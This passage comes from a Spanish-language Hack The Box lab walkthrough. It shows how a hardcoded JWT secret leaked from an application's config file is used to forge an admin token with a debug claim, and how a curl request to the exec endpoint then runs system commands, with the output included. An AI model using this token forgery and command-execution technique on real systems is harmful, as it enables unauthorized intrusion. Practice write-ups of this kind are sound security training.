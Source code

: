 ```json
{"file": "/home/htb/uhc/app/core/config.py"}
{
  "file": "from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator\nfrom typing import List, Optional, Union\n\nfrom enum import Enum\n\n\nclass Set... [PYTHON SCRIPT]
}
```
*Ahora vamos a exportarlo igual que el otro...*

![[Pasted image 20241010193901.png]]
*Vemos este formato lo cual no es muy legible...*

![[Pasted image 20241010194046.png]]
*Ahora si aplicamos esto podemos ver correctamente todo el contenido y podemos comenzar a identificar lo que pone...*

```r
9   │     JWT_SECRET: str = \"SuperSecretSigningKey-HTB\"
```
*Podemos ver que tenemos el JWT_SECRET...*

![[Pasted image 20241010194319.png]]
*Cuando intentamos hacer un whoami podemos ver que nos dice que no tenemos el debug en el JWT pero tampoco lo podemos agregar ya que necesitamos tener el JWT_SECRET que ya lo tenemos*

![[Pasted image 20241010194501.png]]
*Ahora si le ponemos la clavae y ponemos parametro debug y le asignaos el valor true tenemos el token que necesitamos para ejecutar comandos*

![[Pasted image 20241010195521.png]]
*Cambiamos el token del burp y vemos que ya podemos ejecutar comandos!*

```json
❯ curl -X GET 'http://10.10.11.161/api/v1/admin/exec/ifconfig' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpX..." | jq | sed 's/\\n/\n/g'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   994  100   994    0     0   3590      0 --:--:-- --:--:-- --:--:--  3588
"ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.161  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 fe80::250:56ff:fe94:7ac4  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe94:7ac4  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:94:7a:c4  txqueuelen 1000  (Ethernet)
        RX packets 621776  bytes 67877059 (67.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 550926  bytes 67572076 (67.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8370  bytes 658694 (658.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8370  bytes 658694 (658.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0"
```
*Ahora podemos ver como podemos ejecutar comandos a nivel de sistema.*

